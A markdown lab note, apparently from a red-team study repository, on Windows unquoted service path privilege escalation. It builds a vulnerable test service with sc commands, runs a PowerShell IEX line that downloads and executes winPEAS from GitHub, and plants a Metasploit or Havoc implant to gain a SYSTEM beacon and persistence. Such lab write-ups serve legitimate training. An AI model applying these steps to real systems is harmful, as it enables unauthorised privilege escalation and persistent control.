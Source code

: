 # UNQUOTED SERVICE PATH

# SUMMARY

Adversaries may execute their own malicious payloads by hijacking vulnerable file path references. Adversaries can take advantage of paths that lack surrounding quotations by placing an executable in a higher level directory within the path, so that Windows will choose the adversary's executable to launch.

Service paths and shortcut paths may also be vulnerable to path interception if the path has one or more spaces and is not surrounded by quotation marks (e.g., C:\unsafe path with space\program.exe vs. "C:\safe path with space\program.exe"). [2] (stored in Windows Registry keys) An adversary can place an executable in a higher level directory of the path, and Windows will resolve that executable instead of the intended executable. For example, if the path in a shortcut is C:\program files\myapp.exe, an adversary may create a program at C:\program.exe that will be run instead of the intended program.

This technique can be used for persistence if executables are called on a regular basis, as well as privilege escalation if intercepted executables are started by a higher privileged process.

# MITRE

![screenshot](./images/token_unquoted.jpg)

- AlwaysInstallElevated (MSI)
  
- Unquoted Service Path (Services)
  - Requires missing "quotes"
  - and whitespaces in the path
  - write permission in the (sub)folder that holds the service binary

To exploit, the exe needs to be named after the directory it's in, i.e:

---  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

- Create folders "C:\MyPrograms\Vulnerable Service\"
- create pingservice in vs2019
- copy pingservice as "VulnService.exe" to this path

```powershell
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc config VulnService obj= ".\Threatadmin" password= "password"
sc qc VulnService
sc start VulnService
```

When there are spaces in a service path, windows will try to find the service as follows:

It will parse "C:\MyPrograms\Vulnerable Service\service.exe" into

- Potential service : "C:\MyPrograms\vulnerable.exe"
- with arguments `Service\service.exe`

By placing a malicious service exe in "C:\MyPrograms\" named `vulnerable.exe`, we'll escalate privileges to NT SYSTEM AUHTORITY (if the service is running with those privileges)



Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms.

  https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md

---

Run the following tools as a regular unprivileged user (`runas /user:student powershell.exe`)

> - [+] SharpUp/Powerup
> - [+] WinPeas

### WINPEAS

Runas student (unprivileged)

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```



Use the Havoc session to upload a havoc.exe renamed to `vulnerable.exe` to the `C:\MyPrograms\Vulnerable Service\` path, and then start the VulnService, using the havoc `shell` command.

upload /opt/havoc/demonsvc.x64.exe c:\MyPrograms\Vulnerable.exe

```powershell
sc.exe start VulnService
```

> Please note that regular users can't restart services, but after a reboot this will automatically execute.

You'll now have a 2nd beacon with `NT AUHORITY\SYSTEM` privileges.


> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `Code-Execution` and `Persistence`!!!